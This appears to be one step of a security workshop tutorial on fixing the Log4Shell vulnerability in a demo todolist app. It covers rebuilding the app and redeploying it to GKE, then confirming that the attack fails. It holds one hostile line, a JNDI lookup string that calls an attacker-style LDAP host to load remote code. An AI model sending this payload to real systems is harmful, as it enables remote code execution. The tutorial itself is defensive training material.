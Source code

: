 +++
title = "Step 9: Verify the Vulnerability is no longer exploitable."
chapter = false
weight = 44
+++

## Update your working copy

Back in your terminal, pull the latest changes, including the Snyk Fix, to the working environment.

```sh
git pull
```

## Re-build the Image
Now build and push the container to GAR (make sure you are cd'ed into the todolist directory).

```sh
docker build -t $REPO/todolist:latest .
docker push $REPO/todolist:latest
```

## Re-deploy the Application to GKE

After pushing the image to GAR, push it to GKE by scaling the goof deployment with kubectl. The deployment's ImagePullPolicy forces GKE to pull the latest image from GAR.

```sh
kubectl scale deployment todolist --replicas=0
kubectl scale deployment todolist --replicas=1
```

## Verify the Exploit no longer works

Refresh your broweser tab on the todolist app and log back in (user: foo@bar.org, password: foobar) and submit the same JDNI search string: `${jndi:ldap://ldap.darkweb:80/#Vandalize}`.
The page will not show the graphiti because the newer version on Log4J no longer is vulnerable!

![todolist-fixed](/images/todolist-fixed.png)